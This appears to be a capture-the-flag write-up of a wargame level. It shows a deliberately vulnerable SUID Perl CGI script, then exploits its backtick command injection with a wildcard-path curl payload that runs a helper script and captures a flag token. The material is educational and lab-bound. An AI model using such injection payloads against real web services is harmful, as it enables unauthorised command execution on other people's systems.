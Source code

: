 # Level 12 - Command Injection Exploit

This level demonstrates a **command injection** vulnerability in a Perl script.

---

## Step 1: Inspect the Directory

```bash
ls -la
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
```

level12.pl is SUID and runs with flag12's privileges.

Step 2: Examine the Perl Script

```bash
cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  \$nn = \$_[1];
  \$xx = \$_[0];
  \$xx =~ tr/a-z/A-Z/;
  \$xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach \$line (@output) {
      (\$f, \$s) = split(/:/, \$line);
      if(\$s =~ \$nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if(\$_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

The program uses port 4646 and waits for two arguments. It capitalizes the first argument, removes characters after a whitespace, and searches for a match, returning the errors to stdout.
Step 3: Exploit the Command Injection

```bash
ls -l SCRIPT12
-rw-rw-r-- 1 level12 level12 32 May 15 19:03 SCRIPT12

cat SCRIPT12
#!/bin/sh
getflag > /tmp/flag12
chmod 777 /tmp/SCRIPT12
```

Execute the command injection:

```bash
curl localhost:4646?x='`/*/SCRIPT12`'
```

..

Step 4: Retrieve the Token

```bash
cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

✅ Summary

    Command Injection: The use of backticks allowed us to inject a command to retrieve the flag.
    The level12.pl script failed to securely handle user input.
    This exposed a restricted file by executing arbitrary commands.
